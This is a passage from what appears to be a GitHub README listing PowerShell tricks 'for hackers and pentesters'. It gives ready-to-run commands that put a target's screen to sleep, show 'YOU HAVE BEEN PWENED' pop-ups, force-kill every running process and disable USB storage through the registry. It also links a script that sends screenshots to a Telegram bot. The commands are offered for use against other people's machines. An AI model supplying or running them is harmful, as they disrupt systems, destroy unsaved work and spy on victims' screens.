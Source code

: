 12 . Put Screen to Sleep

```
$type = Add-Type '[DllImport("user32.dll")]public static extern int SendMessage(int hWnd, int hMsg, int wParam, int lParam);' -Name a -Pas ; $type::SendMessage(-1, 0x0112, 0xF130, -1);$type::SendMessage(-1, 0x0112, 0xF170, 2)
```
Allows to put screen sleep . when the intercept means , the machine will come back to normal

13 . Popup Message 

To popup Messages , you can use the Following 2 Methods .

Using `msg` For Older Version of Windows 
```
$text = "HEHE YOU HAVE BEEN PWENED"
msg * $text
```
(or)

```
$text = "HEHE YOU HAVE BEEN PWENED" ; msg * $text
```

Else: 

Using `Windows.Forms.MessageBox` Latest Versions 

```
Add-Type -AssemblyName PresentationFramework

[System.Windows.MessageBox]::Show("HEHE - YOU HAVE BEEN PWENED", "PowerShell Pop-up", "OK", "Information")
```
14 . Screenshot with Telebot 

capture and send screenshot to Telegram bot using powershell . 

Download the module 
`Install-Module -Name Telegram.Bot -Scope CurrentUser`

<b>Script -> <a href="https://github.com/Whitecat18/Powershell-Scripts-for-Hackers-and-Pentesters/blob/main/scripts/screenshot.ps1" > Redirect </a></b>

15 . Kill All Process

```
Get-Process | Where-Object { $_.MainModule.FileName -like "*" } | ForEach-Object { Stop-Process -Id $_.Id -Force }
```

Kill all the Running Process .

16 . Enable and disable USB Ports in Registry

Disable USB Ports

```
New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\USBSTOR" -Name "Start" -Value 4 -PropertyType DWORD -Force
```
